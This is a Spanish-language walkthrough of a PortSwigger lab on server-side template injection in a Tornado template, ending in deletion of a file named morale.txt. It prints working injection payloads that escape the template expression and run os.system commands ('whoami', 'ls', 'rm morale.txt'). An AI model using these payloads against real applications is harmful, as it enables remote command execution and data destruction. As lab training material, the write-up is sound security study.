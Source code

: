 ```yaml
---
title: "Basic server-side template injection (code context)"
description: "Laboratorio de Portswigger sobre SSTI"
date: 2024-11-22 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - SSTI
tags:
  - Portswigger Labs
  - SSTI
  - Basic server-side template injection (code context)
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` es `vulnerable` a un `Server Side Template Injection` debido a la forma insegura en que utiliza una `plantilla` de `Tornado`. Para resolver el laboratorio, hay que `revisar` la `documentación` de `Tornado` para descubrir cómo `ejecutar comandos` y luego `eliminar` el archivo `morale.txt` del `directorio` personal de `Carlos`. Podemos `iniciar sesión` en nuestra propia `cuenta` utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SSTI-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` usando las credenciales `wiener:peter`

![](/assets/img/SSTI-Lab-2/image_2.png)

Al `loguearnos` vemos esto

![](/assets/img/SSTI-Lab-2/image_3.png)

Si nos metemos en cualquier `artículo` veremos que podemos `comentar`

![](/assets/img/SSTI-Lab-2/image_4.png)

En la parte de `My account` cambiamos el `Preferred name`

![](/assets/img/SSTI-Lab-2/image_5.png)

El nombre en el `chat` también `cambia`

![](/assets/img/SSTI-Lab-2/image_6.png)

Si `capturamos` la `petición` de cambio de `nombre` en `Preferred name` vemos que se está `enviando` un `objeto`

![](/assets/img/SSTI-Lab-2/image_7.png)

Hacemos referencia a una `propiedad` del `objeto inexistente`

```
blog-post-author-display=user.NO_EXISTE&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```

Si nos dirigimos a la parte de las `publicaciones` obtendremos un `error` mediante el cual podemos identificar el `template` que se está usando

![](/assets/img/SSTI-Lab-2/image_8.png)

Nos dirigimos a hacktricks [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#tornado-python), probamos los `payload` para esta `plantilla` y vemos que funciona

{% raw %}
```
blog-post-author-display={{7*7}}&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

![](/assets/img/SSTI-Lab-2/image_9.png)

Nos vamos a [https://www.tornadoweb.org/en/stable/guide/templates.html](https://www.tornadoweb.org/en/stable/guide/templates.html) y observamos que los objetos se cargan entre {% raw %} `{{ }}` {% endraw %}

![](/assets/img/SSTI-Lab-2/image_10.png)

`Enviamos` este `payload`

{% raw %}
```
blog-post-author-display=}}{% import os %}{{os.system('whoami')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

`Obtenemos` este `error`

![](/assets/img/SSTI-Lab-2/image_11.png)

Probamos este `payload` en el que hacemos referencia al `objeto user`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('ls')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}

Vemos que se ha listado el archivo `morale.txt`

![](/assets/img/SSTI-Lab-2/image_12.png)

`Borramos` el archivo `morale.txt` y `resolvemos` el `laboratorio`

{% raw %}
```
blog-post-author-display=user.name}}{% import os%}{{os.system('rm morale.txt')&csrf=IXe3uTQJV2yzx6Rqz6N0EbMOf8ZkMUQ6
```
{% endraw %}
